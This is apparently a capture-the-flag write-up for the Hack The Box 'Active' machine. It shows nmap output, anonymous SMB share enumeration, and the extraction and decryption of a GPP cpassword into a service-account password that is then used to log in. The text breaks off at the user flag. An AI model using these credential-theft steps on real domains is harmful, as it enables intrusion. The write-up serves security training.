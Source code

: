 ```yaml
---
title: Hack The Box - CTF Lab - Active - Easy
date: 2025-05-25 00:00:01 +0800
image: /images/thumbnails/Active.png
categories: [HTB Labs]
tags: [CPTS, Easy]
---
```

Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.

We of course start with a full nmap scan:
```
sudo nmap -sC -sV -p- 10.10.10.100

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-26 16:18 EDT
Nmap scan report for 10.10.10.100
Host is up (0.028s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-26 20:19:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-26T20:20:15
|_  start_date: 2025-05-26T19:55:29

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.87 seconds
```
From the nmap scan, we notice that the host is a Domain Controller since it is running LDAP. We also know the OS version is Windows Server 2008 and the domain is active.htb. 

We add the domain name to our /etc/hosts file:
```
10.10.10.100 active.htb
```

Like we did in HTB-Forest, we can try using Impacket's GetNPUsers.py to see if there are any domain users who do not have Kerberos preauthentication enabled which would allow us to access their TGT/hashed password. 

```
GetNPUsers.py -dc-ip 10.10.10.100 -request 'active.htb/'

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
```
Unfortunately we see that the DC does not allow for anonymous binding.

Next, we try testing against the SMB service. 

```
smbclient -N -L //10.10.10.100
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
We see that anonymous login is successful and we have several shares that are listed. 

We test to see if we can access any of these shares and we do find a share that allows read access:
```
smbclient -N //10.10.10.100/Replication
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

		5217023 blocks of size 4096. 278565 blocks available
smb: \> 
```
After changing directory to active.htb, we find many files, therefore we download them all recursively with 3 smb commands:
```
smb: \> RECURSE ON 
smb: \> PROMPT OFF
smb: \> mget *

getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI of size 119 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI (0.7 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (12.5 KiloBytes/sec) (average 2.9 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (3.1 KiloBytes/sec) (average 3.0 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (7.1 KiloBytes/sec) (average 3.4 KiloBytes/sec)
getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3722 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (30.3 KiloBytes/sec) (average 5.7 KiloBytes/sec)
```
Once we look through all the files, we see a Guests.xml file:
```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
with username active.htb\SVC_TGS
and password that looks encrypted:
```
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

We look this up online and see that it is a Group Policy Preferences (GPP) AES256 encrypted password with a known static key. We can use the tool gpp-decrypt to decrypt this password (https://github.com/t0thkr1s/gpp-decrypt).

We download the gpp-decrypt from the github instructions and use it with python3 to decrypt the password. 
```
sudo python3 gpp-decrypt.py -f ~/Downloads/Groups.xml
/home/kchen/gpp-decrypt/gpp-decrypt.py:10: SyntaxWarning: invalid escape sequence '\ '
  banner = '''

                               __                                __ 
  ___ _   ___    ___  ____ ___/ / ___  ____  ____  __ __   ___  / /_
 / _ `/  / _ \  / _ \/___// _  / / -_)/ __/ / __/ / // /  / _ \/ __/
 \_, /  / .__/ / .__/     \_,_/  \__/ \__/ /_/    \_, /  / .__/\__/ 
/___/  /_/    /_/                                /___/  /_/         

[ * ] Username: active.htb\SVC_TGS
[ * ] Password: GPPstillStandingStrong2k18
```
Now we have the password for the domain TGS service account: GPPstillStandingStrong2k18

Now we can use smbclient again with these credentials to check if we have more shares available:
```
smbclient -L //10.10.10.100 -U SVC_TGS%GPPstillStandingStrong2k18

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
and we see that we now have the Users share.

We browse to it and find the user flag:
```

